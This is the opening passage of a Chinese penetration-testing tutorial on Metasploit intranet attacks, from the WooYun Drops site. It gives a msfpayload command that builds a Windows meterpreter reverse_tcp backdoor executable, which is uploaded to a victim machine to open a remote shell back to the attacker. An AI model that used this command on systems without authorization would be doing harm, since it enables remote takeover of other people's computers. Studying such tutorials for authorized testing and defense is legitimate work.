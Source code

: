 # metasploit 渗透测试笔记(内网渗透篇)

2014/08/12 12:23 | [DM_](http://drops.wooyun.org/author/DM_ "由 DM_ 发布") | [工具收集](http://drops.wooyun.org/category/tools "查看 工具收集 中的全部文章"), [技术分享](http://drops.wooyun.org/category/tips "查看 技术分享 中的全部文章") | 占个座先 | 捐赠作者

## 0x01 reverse the shell

* * *

### File

通常做法是使用 msfpayload 生成一个 backdoor.exe 然后上传到目标机器执行。本地监听即可获得 meterpreter shell。

```
reverse_tcp/http/https => exe => victim => shell 
```

**reverse_tcp**

windows:

```
msfpayload windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> X > shell.exe 
```

![enter image description here](img/img1_u19_png.jpg)
